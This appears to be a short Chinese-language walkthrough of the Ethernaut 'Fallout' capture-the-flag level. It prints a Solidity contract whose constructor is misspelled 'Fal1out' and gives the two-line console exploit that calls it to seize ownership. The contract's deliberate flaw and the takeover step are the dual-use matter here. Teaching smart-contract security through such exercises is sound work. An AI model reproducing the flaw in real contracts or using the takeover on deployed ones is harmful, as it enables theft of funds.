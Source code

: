 目标是获得以下合约的所有权来完成这一关

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

注意到`Fallout` 的构造函数被写成了 `Fal1out` ，说明该函数不是构造函数，可以直接调用

```js
// 调用该函数，修改 owner
await contract.Fal1out();
// 确认是否修改成功
await contract.owner();
```
